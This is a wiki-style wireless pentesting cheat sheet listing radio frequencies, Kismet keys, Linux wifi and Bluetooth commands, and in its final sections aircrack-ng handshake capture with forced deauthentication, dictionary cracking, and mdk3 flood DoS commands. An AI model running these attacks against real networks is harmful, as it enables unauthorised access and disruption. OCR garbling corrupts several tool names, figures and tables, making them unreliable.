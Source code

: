 ```yaml
---
title: Wireless
sidebar: mydoc_sidebar
permalink: wireless.html
folder: mydoc
---
```


# wireless

### Frequency chart

<table>
   <thead>
     <tr>
       <th style="text-align:left"><b>Technology</b>
       </th>
       <th style="text-align:left"><b>Frequency</b>
       </th>
     </tr>
   </thead>
   <tbody>
     <tr>
       <td style="text-align:left">RFID</td>
       <td style="text-align:left">
         <p>120-150 kHz (LF)</p>
         <p>13.56 MHz (HF)</p>
         <p>433 MHz (lJHF)</p>
       </td>
     </tr>
     <tr>
       <td style="text-align:left">Keyless Entry</td>
       <td style="text-align:left">
         <p>315 MHz (N. Am)</p>
         <p>433.92 MHz (Europe, Asia)</p>
       </td>
     </tr>
     <tr>
       <td style="text-align:left">Cellular (US)</td>
       <td style="text-align:left">
         <p>698-894 MHz</p>
         <p>1710-1755 MHz</p>
         <p>1850-1910 MHz</p>
         <p>2110-2155 MHz</p>
       </td>
     </tr>
     <tr>
       <td style="text-align:left">GPS</td>
       <td style="text-align:left">1227.60,1575.42 MHz</td>
     </tr>
     <tr>
       <td style="text-align:left">L Band</td>
       <td style="text-align:left">1-2 GHz</td>
     </tr>
     <tr>
       <td style="text-align:left">802.15.4 (ZigBee)</td>
       <td style="text-align:left">
         <p>868 MHz (Europe)</p>
         <p>915 MHz (lJS, Australia)</p>
       </td>
     </tr>
     <tr>
       <td style="text-align:left">802.15.1 (Bluetooth)</td>
       <td style="text-align:left">2.4-2.483.5 GHz</td>
     </tr>
     <tr>
       <td style="text-align:left">802.11 b/g</td>
       <td style="text-align:left">2.4 GHz</td>
     </tr>
     <tr>
       <td style="text-align:left">802.11a</td>
       <td style="text-align:left">5.0 GHz</td>
     </tr>
     <tr>
       <td style="text-align:left">802.11 n</td>
       <td style="text-align:left">2.4/5.0 GHZ</td>
     </tr>
     <tr>
       <td style="text-align:left">C Band</td>
       <td style="text-align:left">4-8 GHz</td>
     </tr>
     <tr>
       <td style="text-align:left">Ku Band</td>
       <td style="text-align:left">12-18 GHz</td>
     </tr>
     <tr>
       <td style="text-align:left">K Band</td>
       <td style="text-align:left">18-26.5 GHz</td>
     </tr>
     <tr>
       <td style="text-align:left">Ka Band</td>
       <td style="text-align:left">26.5-40 GHz</td>
     </tr>
   </tbody>
</table>### Fcc id lookup

```text
https://apps.fcc.gov/oetcf/eas/reports/GenericSearch.cfm
```

### Database of frequencies

```text
http://www.radioreference.com/apps/db/
```

### Source of Kismet

| **Command** | **Explanation** |
| :--- | :--- |
| e| kismet servers |
| h Help
| | View full screen
| n Current network number
| | Remove the sound
| | Network details
| t| tag or remove the network tag
| | Linking network list
| g Grouping of tagged networks
| | Display the power levels of the wireless network card
| | Remove the group, the current group
| d Show displayable settings
| c Show current network users
| | Package rate chart
| L| Lock the channel in the selected channel
| a Show network statistics
| H| Back to the normal channel
| p| Receive package type
| +/- | Expand/collapse groups
| f Network Center
| CTRL+L | Display the page again
| w| Tracking alerts
| Q Exit Kismet |
| X Close the popup window

### wifi commands in linux

| command | Explanation
| :--- | :--- |
| iwconfig | Interface settings
| rfkill list | Show wifi problem
| rfkill unblock all | turn on wifi |
| airdump-ng mon0 | Monitoring of all interfaces

### Connected to an insecure network

```text
iwconfig ath0 essid $SSID
ifconfig ath0 up
dhclient ath0
```

### connect to wep

```text
iwconfig ath0 essid $SSID key
ifconfig ath0 up
dhclient ath0
```

### Connect to wpa-psk

```text
iwconfig ath0 essid $SSID
ifconfig ath0 up
wpa_supplicant -B -i ath0 -c wpa-psk.conf
dhclient ath0
```

### Connect to wpa-enterprise

```text
iwconfig ath0 essid $SSID
ifconfig ath0 up
wpa supplicant -B -i ath0 -c wpa-ent.conf
dhclient ath0
```

## Bluetooth on Linux

<table>
   <thead>
     <tr>
       <th style="text-align:left"><b>Command</b>
       </th>
       <th style="text-align:left"><b>Description</b>
       </th>
     </tr>
   </thead>
   <tbody>
     <tr>
       <td style="text-align:left">hciconfig hci0 up</td>
       <td style="text-align:left">Turn on Bluetooth interface</td>
     </tr>
     <tr>
       <td style="text-align:left">hcitool -i hci0 scan --flush --all</td>
       <td style="text-align:left">Search for Bluetooth enabled devices</td>
     </tr>
     <tr>
       <td style="text-align:left">sdptool browse BD_ADDR</td>
       <td style="text-align:left">List of open services</td>
     </tr>
     <tr>
       <td style="text-align:left">
         <p>hciconfig hci0 name &quot;NAME&quot; class Ox520204</p>
         <p>pi scan</p>
       </td>
       <td style="text-align:left">Select as discoverable</td>
     </tr>
     <tr>
       <td style="text-align:left">pand -K</td>
       <td style="text-align:left">Delete pand session</td>
     </tr>
   </tbody>
</table>

## Testing wifi networks in Linux

### Start monitor mode interface

```text
airmon-ng stop ath0
airmon-ng start wifi0
iwconfig ath0 channel $CH
```

### Capture client handshake attack

```text
airdump-ng -c $CH --bssid $AP -w file athO #Capture traffic
aireplay-ng -0 10 -a $AP -c $CH athO #Force client de-auth


```

### Brute force handshake attack

```text
aircrack-ng -w wordlist capture.cap # WPA-PSK
asleep -r capture.cap -w dict.asleep # LEAP
eapmd5pass -r capture.cap -w wordlist # EAP-HDS



```

### Dos attack

```text
mdk3 int a -a $AP #Auth Flood
mdk3 int b -c $CH #Beacon Flood
```


{% include links.html %}
